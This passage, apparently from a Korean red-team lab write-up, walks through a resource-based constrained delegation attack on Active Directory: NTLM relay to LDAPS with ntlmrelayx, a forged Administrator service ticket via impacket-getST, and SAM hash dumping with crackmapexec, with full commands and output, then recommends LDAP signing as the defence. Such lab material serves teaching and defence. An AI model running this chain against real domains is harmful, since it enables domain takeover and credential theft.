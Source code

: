 4. 타겟 서버의 WebDAV 서비스가 공격자 머신인 `http://redteamplaybook.choi.local:80/helloworld` 에 방문했다. 이 Net-NTLM 트래픽을 도메인 컨트롤러에게 릴레이한다. 이때, `--delegate-access` 플래그와 `--escalate-user <생성한-공격자-머신-계정>` 을 지정해 공격자 머신 계정이 타겟 서버의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성에 들어갈 수 있도록 만든다.

```
└─# ntlmrelayx.py -t ldaps://dc01.choi.local -wh 192.168.40.151 --delegate-access --escalate-user 'DESKTOP-86TFUIC2$'

[*] HTTPD(80): Connection from 192.168.40.151 controlled, attacking target ldaps://dc01.choi.local
[*] HTTPD(80): Authenticating against ldaps://dc01.choi.local as CHOI/WKSTN01$ SUCCEED
[*] Delegation rights modified succesfully!
[*] DESKTOP-86TFUIC2$ can now impersonate users on WKSTN01$ via S4U2Proxy
```

5. 이제 공격자의 머신 계정 `DESKTOP-86TFUIC2$` 은 타겟 서버에 접근할 때 아무런 도메인 유저로서 가장 (impersonate) 할 수 있게 됐다. 타겟 서버의 CIFS 서비스로 접근하는 커버로스 서비스티켓을 발급받을 때, 도메인 관리자인 `Administrator@choi.local` 유저로 가장 (impersonate) 한다.

```
└─# impacket-getST choi.local/'DESKTOP-86TFUIC2$':'ipIVa07EaG0gtxAQjUUNctIlBzesUPbI' -spn cifs/wkstn01.choi.local -impersonate Administrator
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

6. 발급 받은 서비스티켓은 "도메인 관리자로서 타겟 서버의 CIFS 서비스에 접근 할 수 있는" 서비스티켓이다. 이 티켓을 활용해 타겟 서버를 장악한 뒤, SAM 데이터베이스를 덤프한다.

```
└─# cme smb 192.168.40.151 --use-kcache --sam 

SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 x64 (name:WKSTN01) (domain:choi.local) (signing:False) (SMBv1:False)
SMB         192.168.40.151  445    WKSTN01          [+] choi.local\Administrator from ccache (Pwn3d!)
SMB         192.168.40.151  445    WKSTN01          [+] Dumping SAM hashes
SMB         192.168.40.151  445    WKSTN01          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.151  445    WKSTN01          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[ ... ] 
```

### 대응 방안

RBCD는 액티브 디렉토리의 커버로스나 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성의 취약점을 익스플로잇 하는 공격이 아니다. 그저 커버로스 Delegation의 개념과 액티브 디렉토리의 오브젝트 특성을 공격자의 관점에서 악용하는 공격일 뿐이다.

따라서 대응 방안은 LDAP NTLM 릴레이 공격시 릴레이와 릴레이를 통한 특성 변경이 불가능 하도록 LDAP Signing 을 활성화 시키는 것 뿐이다. 다음의 GPO를 설정해 LDAP Signing 을 Required 로 설정한다.

